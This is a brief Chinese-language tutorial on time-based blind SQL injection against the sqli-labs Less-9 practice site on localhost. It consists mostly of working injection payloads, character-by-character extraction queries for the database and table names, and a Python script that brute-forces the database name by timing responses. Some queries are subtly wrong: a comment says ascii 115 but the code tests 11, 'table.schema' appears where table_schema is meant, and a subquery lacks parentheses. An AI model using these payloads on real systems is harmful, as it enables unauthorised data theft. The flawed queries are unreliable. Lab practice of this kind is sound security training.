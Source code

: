 payload:?id=1'and+sleep(5)--+

五秒后返回存在时间盲注。



确定数据库第一位字母：

```javascript
#if数据库第一位字符的ascii=115时 sleep（5）
select * from users where id='1' 
and IF(ascii(substr(database(),1,1))=11,sleep(5),1);
```

当数据库名的第一位的ascii=115时 sleep(5)



已知数据库名为security:

```javascript
select * from users where id='1' 
and IF(ascii(substr(select table_name from 
information_schema.tables where table.schema='security' 
limit 0,1),1,1))=101,sleep(5),1);
```



盲注脚本：

```javascript
# coding=utf-8
# python3
# heibai
import requests

dic = "qwertyuioplkjhgfdsazxcvbnm0123456789,_@!#$%^&*()_+=<>?:\"|';/."
url = "http://127.0.0.1/vuln/sqli-labs/Less-9/?id=1'+and+"
string = ''
for i in range(1, 100):
    for j in dic:
        id = "if(ascii(substr(database(),{0},1))={1},sleep(5),1)--+".format(i, ord(j))

        ctf = requests.get(url + id)
        time = ctf.elapsed.seconds
        if time > 3:
            string += j
            print(string)
            break
print(string)
```

